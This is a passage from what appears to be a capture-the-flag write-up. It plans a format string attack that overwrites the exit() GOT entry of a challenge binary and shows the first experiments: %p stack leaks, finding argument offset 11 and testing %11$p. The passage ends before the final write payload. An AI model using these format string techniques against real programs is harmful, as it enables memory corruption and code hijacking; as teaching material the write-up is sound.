 This knowledge allows for the creation of a rudimentary exploit plan:
* use printf() _somehow_ to overwrite a GOT function with the address of `unknownfunction`. My choice here will be to change `exit()` to execute `unknownfunction()`, so that it can be easily triggered with option 5 in the interactive menu.
* run options 4 and 5 to get the flag.

Using `printf()` to complete the exploit will be the most confusing part of all of this for beginners. Let's try to make things easier to understand with a few experiments.

## Approaching printf()
The first thing to do with a `printf()` bug is to figure out the layout of the stack, relative to `printf()`. This is because `printf()` takes all of its arguments<sup>3</sup> off the stack, and we'll need to figure out how the stack can be controlled to write to the GOT.
```c
***************************
<....>
Enter your choice:
1
Please enter the description of the report:
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p    # <-- spam %p to check the highest values on the printf() stack
Report created. Report ID is 1

***************************
<....>
Enter your choice:
2
Please enter your name:
aaaabbbbccccddddeeee                  # <-- the name is a part of the stack; add input here to control the stack of `printf()`
Welcome aaaabbbbccccddddeeee!
Please enter report number or press 0 to return to menu:
1
Report details:
0x8 0xf67bb5a0 0xf67fe000 0xf6679f70 0xf67ef5f0 0x1 0x4 0x61616161 0xf6000a31 0xf67bbd60 0x61616161 0x62626262 0x63636363 0x64646464 0x65656565 (nil) 0x8048e40 0x13 0xf67bbd60
Please enter report number or press 0 to return to menu:
```
This experiment shows that the input for `your name` will end up as the `11+`th argument for `printf()`
```c
| 1 |     2    |     3    |     4    |     5    | 6 | 7 |     8    |     9    |    10    |    11    |    12    |    13    |    14    |    15    |...
|0x8|0xf67bb5a0|0xf67fe000|0xf6679f70|0xf67ef5f0|0x1|0x4|0x61616161|0xf6000a31|0xf67bbd60|0x61616161|0x62626262|0x63636363|0x64646464|0x65656565|...
```
You can verify that fact by trying another format string that specifically targets the 11th argument:
```c
***************************
<...>
Enter your choice:
1
Please enter the description of the report:
%11$p
Report created. Report ID is 1

***************************
<...>
Enter your choice:
2
Please enter your name:
aaaa
Welcome aaaa!
```
